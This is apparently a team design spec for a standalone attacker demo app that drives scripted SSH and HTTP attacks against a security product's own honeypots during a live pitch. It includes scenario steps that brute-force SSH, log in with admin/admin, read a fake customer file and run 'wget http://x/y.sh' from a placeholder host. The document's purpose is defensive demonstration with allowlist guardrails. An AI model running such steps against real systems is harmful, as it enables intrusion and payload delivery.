

# attacker.md — LXS Attacker Demo App (team reference)

### The "attacker's console" we show judges, and the service behind it

| | |
|---|---|
| What this is | A **separate, standalone demo app** that plays the attacker on stage. It is how we drive the whole LXS story live: the attacker does something here, and the SOC dashboard lights up in real time. |
| What it is NOT | Not part of the product. Not shipped to customers. No login, no accounts, no persistence worth keeping. It exists only for the demo. |
| Shape (decided) | **Scenario buttons on top + a manual console below.** One-click canned attack chains for the smooth demo, plus a free-form console for when a judge says "do X". |
| How it hits the decoys (decided) | **A thin attacker API service does the real attacks** (real SSH, real HTTP) against the deployed honeypots, so the dashboard reacts to genuine traffic. A **safe/replay fallback** routes through the platform's deterministic replay endpoint if the live network misbehaves on stage. |
| Frontend details | See `attackerFRONTEND.md` (kept deliberately thin). |
| Relationship to BREAKDOWN | This replaces/absorbs the "simulator" (BREAKDOWN F13). BREAKDOWN's simulator was a CLI; this is the same idea with a web UI judges can see and poke. |

**Why a separate service at all?** A browser cannot open a raw SSH socket or send arbitrary HTTP from a page to another origin without CORS pain. So the attacker *web UI* is dumb — it just shows buttons and a console and renders results. The actual attacking is done by a small Node service (`attacker-api`) that can open SSH connections (`ssh2`) and make HTTP requests to the honeypots. The UI tells the service "run the PS scenario" or "ssh as admin and run `cat customer_data.csv`", the service does it for real, and the dashboard — fed by the honeypots the service just touched — reacts.

---

## Table of contents

1. [The role it plays in the demo](#1-the-role-it-plays-in-the-demo)
2. [Architecture and where it sits](#2-architecture-and-where-it-sits)
3. [The two hitting modes (live vs safe)](#3-the-two-hitting-modes-live-vs-safe)
4. [The scenarios (canned attack chains)](#4-the-scenarios-canned-attack-chains)
5. [The manual console (free-form attacks)](#5-the-manual-console-free-form-attacks)
6. [attacker-api service spec](#6-attacker-api-service-spec)
7. [Data contracts (UI ↔ attacker-api)](#7-data-contracts-ui--attacker-api)
8. [The source-IP problem, and how we solve it for the demo](#8-the-source-ip-problem-and-how-we-solve-it-for-the-demo)
9. [Safety and guardrails](#9-safety-and-guardrails)
10. [Folder structure and run commands](#10-folder-structure-and-run-commands)
11. [Build order and definition of done](#11-build-order-and-definition-of-done)
12. [Open questions for the team](#12-open-questions-for-the-team)

---

## 1. The role it plays in the demo

The 5-minute demo (BREAKDOWN Appendix A / PDF §13) is a story told in three beats, and the attacker app is the narrator's hands:

1. **Noise beat.** Click **"Run noise"**. A scanner/brute-force bot hammers the decoys. The dashboard shows it scored low, labelled Noise, auto-suppressed. *"This is 90% of the internet. Nobody gets paged."*
2. **Targeted beat.** Click **"Run PS attacker"**. A human-paced attacker scans, brute-forces, logs into the fake SSH box with `admin/admin`, lists files, reads fake customer data, then calls the **real** `/api/payments`. The dashboard's incident climbs Low → Medium → High → **Critical** on screen, builds one attack chain, maps ATT&CK, and the AI summary appears.
3. **Response beat.** The analyst clicks **Block source** on the dashboard. Back on the attacker console, the next request is **refused (403 / connection dropped)** — live proof the block works. Export IOCs.

The optional fourth beat: hand a judge the manual console (or `ssh root@<ip> -p 22`) and let them poke the honeypot themselves.

So the attacker app must: (a) fire whole scenarios with one click, (b) let a human send individual requests, and (c) **visibly show the result of each request** (connection accepted/refused, the fake response, "you were blocked") so the audience sees both sides of the story.

---

## 2. Architecture and where it sits



Key points:
- **attacker-web** and **attacker-api** are their own two apps, in their own folder, on their own port(s). They do **not** share code, auth, or deployment with the platform or the customer app. That is the "completely different service" the brief asks for.
- In **live mode**, attacker-api attacks the honeypots directly. The platform never hears from the attacker app at all — it only sees the events the honeypots generate, which is exactly what makes the demo honest.
- In **safe mode**, attacker-api instead calls the platform's `POST /v1/projects/:pid/demo/replay` endpoint, which re-injects a recorded version of the same scenario through the real ingest pipeline. Same dashboard result, no live network dependency.

---

## 3. The two hitting modes (live vs safe)

A single toggle in the UI (and `ATTACK_MODE=live|safe` env var on attacker-api) switches between them. The scenario definitions are shared; only the executor differs.

| | **Live mode** (default for the real demo) | **Safe mode** (backup / flaky-network insurance) |
|---|---|---|
| What happens | attacker-api opens real SSH to Cowrie and real HTTP to the app/decoys | attacker-api posts a recorded scenario to the platform's replay endpoint |
| Dashboard reacts because | the honeypots genuinely captured the attack and shipped events | the platform replays recorded events through the real detection pipeline |
| "Block source" proof | genuinely works: the next real request is 403'd / dropped | simulated: the replay marks later requests as blocked |
| Judge can SSH in live | yes | no |
| Depends on | the lab network being up and reachable | only the platform being up |
| Determinism | high (seeded scenarios) but subject to timing | total |

**Recommended demo plan:** run **live**, keep **safe** armed on a second browser tab / a hotkey. If anything stutters, flip to safe mid-demo and keep talking. This is the "switch in under 10 seconds" backup the PDF §13 calls for, made one click.

---

## 4. The scenarios (canned attack chains)

Each scenario is a named, ordered list of steps. A step is either an `http` request or an `ssh` action (connect / login / command). attacker-api executes them in order with realistic pauses (human-paced for targeted, fast for noise). The UI streams each step's result back so the audience watches it unfold.

Ship these five (mirrors PDF §7.5 worked examples + S1 scenarios):

| id | Name | What it does | Expected dashboard result |
|---|---|---|---|
| `noise` | Internet scanner | Port/path sweep across `/admin`, `/.env`, `/wp-login.php` + 5 fast failed SSH logins with a scanner user-agent and bot cadence | Score ~23, **Low**, label **Noise**, auto-suppressed |
| `ps-attacker` | **The headliner** | Scan → 5 failed SSH logins → login `admin/admin` → `uname -a`, `ls -la /srv/exports`, `cat customer_data.csv` (human-paced) → then `GET /api/payments` from the same source | Climbs Low→Med→High→**Critical**, label **Targeted**, one chain, real-asset badge |
| `honeytoken` | Credential theft | `GET /.env` (reads the fake key) → wait → `GET /api/payments` with `Authorization: Bearer acme_live_…` (the stolen honeytoken) | Jumps to **Critical** via R16, honeytoken-used badge, label **Targeted** |
| `opportunistic` | Scripted bot that got in | Brute-force → login with common creds → scripted `uname; wget http://x/y.sh` (fast, no human gaps) | **High**, label **Opportunistic**, batched not paged |
| `sqli` | Web exploit spray | sqlmap-style user-agent + SQLi/traversal payloads against decoy paths | **Medium**, label Noise unless continued — shows exploit detection (R05) |

Each scenario definition (shared JSON, lives in `attacker-api/scenarios/`):

```jsonc
// scenarios/ps-attacker.json
{
  "id": "ps-attacker",
  "name": "PS targeted attacker",
  "persona": "human",                 // controls step delays (human = 1.5–4s gaps)
  "seed": 42,
  "narration": "Scans, brute-forces, logs in with default creds, reads fake customer data, then hits the real payments API.",
  "steps": [
    { "kind": "http", "method": "GET", "path": "/admin", "note": "probe admin" },
    { "kind": "http", "method": "GET", "path": "/.env", "note": "hunt secrets" },
    { "kind": "http", "method": "GET", "path": "/backup.sql", "note": "hunt backups" },
    { "kind": "ssh", "action": "connect" },
    { "kind": "ssh", "action": "login", "username": "admin", "password": "wrong1", "expect": "fail", "repeat": 5 },
    { "kind": "ssh", "action": "login", "username": "admin", "password": "admin", "expect": "success" },
    { "kind": "ssh", "action": "command", "cmd": "uname -a" },
    { "kind": "ssh", "action": "command", "cmd": "ls -la /srv/exports" },
    { "kind": "ssh", "action": "command", "cmd": "cat /srv/exports/customer_data.csv" },
    { "kind": "http", "method": "GET", "path": "/api/payments", "note": "touch the REAL asset — the wow moment" }
  ]
}
```

The UI shows these as big buttons at the top. Each button, when clicked, calls `POST /run {scenarioId, mode}` and then renders a live step list as results stream back.

---

## 5. The manual console (free-form attacks)

Below the scenario buttons, a console for ad-hoc attacks — this is what you use when a judge says "what if I try X". Two sub-panels:

**Web request panel.** Target path (`/admin`, `/.env`, `/api/payments`, or type anything), method, optional headers (so you can paste a honeytoken into `Authorization`), optional body, and a **Send request** button. Shows: status code, whether it was the fake decoy page or the real app, response body (collapsible), and a big banner if the response was a **403 "Blocked"** (so the "block works" moment is unmissable).

**SSH panel.** Target (defaults to the deployed `ds-ssh` host:port), username, password, and a command box. A **Connect / Login** button then a **Run command** box — or a one-shot "login + run" button. Shows the login result (accepted/refused) and the emulated shell output line by line. After the analyst blocks the source, a fresh connect attempt shows **"Connection refused"**.

Both panels are thin: they just build a request object and `POST /http` or `POST /ssh` to attacker-api, then render the response. No cleverness in the browser.

**The "I was blocked" story.** Both panels prominently surface the blocked state, because the third demo beat depends on the audience *seeing* the attacker get locked out right after the analyst clicks Block. Make the 403 / connection-refused result loud (red banner, "You have been blocked by LXS").

---

## 6. attacker-api service spec

A tiny Express (v5, ESM, to match the Genesis stack) service. One job: take a scenario or a single action and perform it against the configured targets, streaming results back.

**Config (env):**

| Var | Meaning | Example |
|---|---|---|
| `PORT` | listen port | `6060` |
| `ATTACK_MODE` | `live` or `safe` | `live` |
| `TARGET_APP_URL` | the Acme Shop app base URL | `https://acme-shop.demo` |
| `TARGET_SSH_HOST`, `TARGET_SSH_PORT` | the ds-ssh honeypot | `acme-shop.demo`, `22` |
| `PLATFORM_URL`, `PLATFORM_PROJECT_ID`, `PLATFORM_DEMO_TOKEN` | for safe mode replay | — |
| `ALLOW_TARGETS` | allowlist of hosts this service may attack (safety, §9) | `acme-shop.demo,localhost` |
| `SIM_IP` | optional source-IP label to attach (see §8) | `203.0.113.66` |

**Endpoints:**

| Method | Path | Body | Does |
|---|---|---|---|
| `GET` | `/health` | — | `{ ok, mode, targets }` |
| `GET` | `/scenarios` | — | list of scenario `{id, name, narration, stepCount}` |
| `POST` | `/run` | `{ scenarioId, mode? }` | runs a scenario; **streams** step results (SSE or chunked JSON lines) |
| `POST` | `/http` | `{ method, path, headers?, body? }` | performs one HTTP request against `TARGET_APP_URL`, returns `{status, blocked, isDecoy, headers, body}` |
| `POST` | `/ssh` | `{ action, username?, password?, cmd?, sessionId? }` | one SSH action against the honeypot; returns `{ ok, output, refused, sessionId }` |
| `POST` | `/reset` | — | closes open SSH sessions, clears console state |

**Execution internals:**
- HTTP uses `fetch`/`undici`. It detects "blocked" from a 403 with the LXS body (or a dropped connection) and "isDecoy" from a response marker the decoy adds (e.g. an `X-DS-Decoy` header the middleware/`ds-web` sets — confirm with the platform team).
- SSH uses `ssh2`'s `Client`. `connect`/`login` opens a connection; `command` runs in an interactive shell or exec channel and captures stdout. Sessions are keyed by a `sessionId` so the console can run several commands in one "shell". After a block, Cowrie (or the host firewall) refuses the connection — surface that as `refused: true`.
- **In safe mode**, `/run` ignores the real targets and instead `POST`s the scenario id to `PLATFORM_URL/v1/projects/:pid/demo/replay`, then streams synthetic step results derived from the scenario definition so the console UI still animates.
- Human pacing: between steps with `persona: "human"`, sleep a seeded 1.5–4s; for `noise`/`opportunistic`, 50–300ms.

**No persistence, no auth.** State is in-memory (open SSH sessions, last run). It resets on restart, which is fine — it is a stage prop.

---

## 7. Data contracts (UI ↔ attacker-api)

**Scenario run step result** (one streamed frame):

```jsonc
{
  "type": "step",
  "index": 6,
  "kind": "ssh",                       // or "http"
  "label": "cat /srv/exports/customer_data.csv",
  "status": "ok",                      // ok | fail | blocked | refused | error
  "detail": "id,email,card\n1,a@example.com,4111...",   // response/output excerpt
  "blocked": false,
  "atMs": 7421                         // ms since run start, for the timeline
}
```

Terminal frame: `{ "type": "done", "steps": 10, "blockedCount": 0 }`.

**Single HTTP result** (`POST /http`):

```jsonc
{ "status": 403, "blocked": true, "isDecoy": false,
  "body": "Forbidden", "note": "You have been blocked by LXS" }
```

**Single SSH result** (`POST /ssh`):

```jsonc
{ "ok": true, "refused": false, "sessionId": "s_8f3a",
  "output": "Linux db-backup-01 5.15.0 ...", "action": "command" }
```

The UI never needs to know about live-vs-safe beyond showing a badge; attacker-api hides the difference behind these same shapes.

---

## 8. The source-IP problem, and how we solve it for the demo

This is the one real gotcha, flagged in both BREAKDOWN (G6) and the PDF (A3). **If everything runs on one laptop, every attack appears to come from `127.0.0.1`**, so the noise bot and the targeted attacker merge into one attacker on the dashboard, and the whole "same source touched a real asset" story collapses.

Three ways to keep the sources distinct, in order of preference:

1. **Separate machines (best for the final demo).** Run attacker-api on a different box (or a cheap VM) from the victim host. Real distinct public IPs; nothing to fake. Run two instances (or two scenarios from two IPs) if you want noise and targeted to look different.
2. **A declared source-IP label (good enough, matches PDF A3).** attacker-api attaches an `X-DS-Sim-IP` header to HTTP and a documented marker to SSH; the honeypots trust it **only in demo mode** (`LXS_DEV_TRUST_SIM_HEADER=1`, refused in production per BREAKDOWN §5.7). Each scenario uses a fixed documentation-range IP (`203.0.113.66` for the targeted attacker, `198.51.100.x` for noise). The dashboard then shows believable, distinct, "simulated" sources.
3. **Safe/replay mode.** The recorded scenarios already carry their own source IPs, so replay sidesteps the problem entirely. This is why safe mode is also the cleanest fallback.

Use (1) if you have a second machine; otherwise (2). Document in the demo script which you are using so a judge asking "is that a real IP?" gets an honest answer ("it is a labelled simulated source in our lab — in production these are real attacker IPs").

---

## 9. Safety and guardrails

Even though it is a demo prop, attacker-api can send real SSH and HTTP, so it needs guardrails so nobody points it at something they shouldn't:

- **Target allowlist.** attacker-api refuses any target not in `ALLOW_TARGETS`. Default to `localhost` + the lab host only. A request to attack anything else returns `400 target_not_allowed`.
- **Refuse public internet by default.** If a target resolves to a public IP and `--i-own-this-target` / `ALLOW_PUBLIC=1` is not set, refuse. (Mirrors the BREAKDOWN simulator rule.)
- **No real exploits.** The scenarios only *probe* decoys and send benign payloads (SQLi strings that the decoy logs but never executes). Nothing here actually compromises anything — the honeypots are emulated.
- **The sim-IP trust header is demo-only.** The honeypots honour `X-DS-Sim-IP` only when the explicit dev flag is on, and refuse it under `NODE_ENV=production`. Keep that flag off anywhere real.
- **No secrets in the attacker app.** The only "credential" it holds is the fake honeytoken value for the honeytoken scenario, and the optional `PLATFORM_DEMO_TOKEN` for safe-mode replay. No real keys.
- **It is isolated from the product.** Separate repo folder, separate deploy, separate port. It cannot read the platform's data; in live mode it cannot talk to the platform at all.

---

## 10. Folder structure and run commands

```
attacker-demo/
├── attacker-api/
│   ├── package.json              # express@5, ssh2, cors, undici (ESM)
│   ├── src/
│   │   ├── server.js             # Express app, the endpoints in §6
│   │   ├── run-scenario.js       # step executor + pacing + streaming
│   │   ├── http-attacker.js      # performs HTTP, detects blocked/decoy
│   │   ├── ssh-attacker.js       # ssh2 client, session map, command exec
│   │   ├── safe-mode.js          # replay via platform /demo/replay
│   │   └── allowlist.js          # target guard (§9)
│   └── scenarios/                # noise.json, ps-attacker.json, honeytoken.json, opportunistic.json, sqli.json
└── attacker-web/                 # see attackerFRONTEND.md
    └── ...
```

Run (dev):

```bash
# terminal 1 — attacker-api
cd attacker-demo/attacker-api
ATTACK_MODE=live TARGET_APP_URL=http://localhost:3000 TARGET_SSH_HOST=localhost TARGET_SSH_PORT=22 \
ALLOW_TARGETS=localhost npm start          # listens on :6060

# terminal 2 — attacker-web
cd attacker-demo/attacker-web
NEXT_PUBLIC_ATTACKER_API_URL=http://localhost:6060 npm run dev   # :3002
```

Ports: attacker-web `3002` (so it doesn't clash with the dashboard on `3000`), attacker-api `6060`.

---

## 11. Build order and definition of done

| Step | Deliver | Done when |
|---|---|---|
| A0 | attacker-api skeleton: `/health`, `/scenarios`, config, allowlist | `GET /health` returns `{ok, mode, targets}`; non-allowed target is refused |
| A1 | `/http` single request + block/decoy detection | hitting `/admin` returns the decoy page; after a dashboard block, returns `{blocked:true}` |
| A2 | `/ssh` connect/login/command via ssh2 | real login to the Cowrie honeypot works and returns emulated shell output; refused after block |
| A3 | `/run` scenario executor with streaming + pacing | the `ps-attacker` scenario runs end to end and the **dashboard reaches Critical** |
| A4 | All 5 scenarios + safe-mode replay | each scenario produces its expected dashboard label/severity; safe mode reproduces `ps-attacker` with no live network |
| A5 | attacker-web (see attackerFRONTEND.md) | buttons + console wired; the 3-beat demo runs from the UI alone |

**Overall DoD:** standing in front of the dashboard, a presenter can click **Run noise**, then **Run PS attacker**, watch the incident go Critical, have the analyst click **Block** on the dashboard, then click **Send request** on the attacker console and get a visible **403 / refused** — all without touching a terminal.

---

## 12. Open questions for the team

1. **Decoy marker header.** Does the middleware / `ds-web` set a response header (e.g. `X-DS-Decoy: 1`) so attacker-api can label a response "this was the decoy, not the real app"? If not, we infer from status/content. (Low effort to add on the platform side; worth it for the console's clarity.)
2. **Block proof latency.** The policy poll is ~5–7s (BREAKDOWN §3.4). On stage, after the analyst clicks Block, there is a few-second gap before the attacker's next request is refused. Do we (a) narrate the gap ("takes a moment to propagate"), or (b) shorten the poll interval to ~1s for the demo project? Recommend (b) for the demo only.
3. **Safe-mode fidelity.** The platform's `/v1/projects/:pid/demo/replay` must accept our 5 scenario ids and re-time them. Confirm with the platform owner that the replay fixtures match these scenario definitions, so live and safe produce the same dashboard story.
4. **Where attacker-api runs for the real demo.** Same laptop (use the sim-IP header) or a second machine (real distinct IPs)? This decides §8 option 1 vs 2. Decide before the final rehearsal.
